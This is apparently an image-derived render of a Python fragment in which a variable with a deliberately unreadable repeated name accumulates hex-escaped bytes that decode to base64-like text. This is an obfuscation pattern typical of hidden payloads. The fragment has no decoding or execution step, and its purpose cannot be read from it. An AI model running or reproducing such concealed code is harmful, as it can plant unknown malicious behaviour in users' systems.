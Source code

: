 ```python3
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x53\x56\x52\x4c\x56\x56\x4e\x44\x53\x6b\x70\x46\x56\x6c\x4e\x57\x51\x31\x68\x4c"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x51\x6b\x35\x47\x55\x56\x4e\x54\x53\x30\x70\x4f\x53\x31\x56\x54\x56\x56\x4e\x46"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x54\x45\x70\x47\x56\x55\x4e\x4f\x53\x31\x68\x48\x57\x54\x4a\x46\x52\x56\x4d\x79"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x54\x55\x6c\x61\x51\x6c\x5a\x4c\x55\x30\x70\x59\x53\x6c\x4a\x42\x56\x56\x4e\x57"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x55\x30\x64\x4a\x4e\x55\x70\x56\x55\x31\x64\x54\x54\x30\x70\x4b\x52\x6b\x52\x48"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x56\x54\x4a\x49\x52\x31\x5a\x44\x52\x6b\x56\x54\x55\x31\x64\x4a\x4e\x55\x4e\x47"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x54\x30\x35\x54\x56\x55\x73\x31\x52\x31\x56\x4e\x56\x45\x74\x5a\x53\x54\x56\x4c"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x56\x56\x56\x4f\x55\x30\x74\x4b\x53\x6b\x64\x46\x54\x31\x45\x79\x56\x6b\x64\x4b"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x53\x6b\x56\x58\x55\x30\x70\x55\x53\x54\x56\x44\x56\x56\x4e\x54\x57\x6c\x4e\x4b"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x53\x6b\x5a\x46\x56\x56\x59\x79\x57\x45\x70\x46\x57\x6c\x56\x4c\x55\x7a\x4a\x48"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x53\x30\x5a\x4d\x56\x56\x4e\x57\x4d\x6b\x4e\x4a\x4e\x55\x56\x57\x52\x56\x4e\x44"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x56\x6b\x64\x53\x54\x6b\x5a\x46\x55\x6b\x4e\x4b\x52\x31\x5a\x42\x56\x6b\x74\x57"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x4d\x6c\x46\x4a\x55\x56\x70\x46\x56\x56\x4e\x4c\x4d\x6b\x78\x43\x52\x31\x56\x56"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x55\x6b\x4a\x58\x53\x6b\x70\x47\x52\x56\x6c\x53\x4d\x6c\x4a\x4b\x52\x56\x70\x46"
__MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY_MONKEY += b"\x55\x56\x4e\x54\x52\x6b\x64\x4f\x51\x31\x55\x32\x55\x30\x74\x4d\x53\x54\x56\x47"
```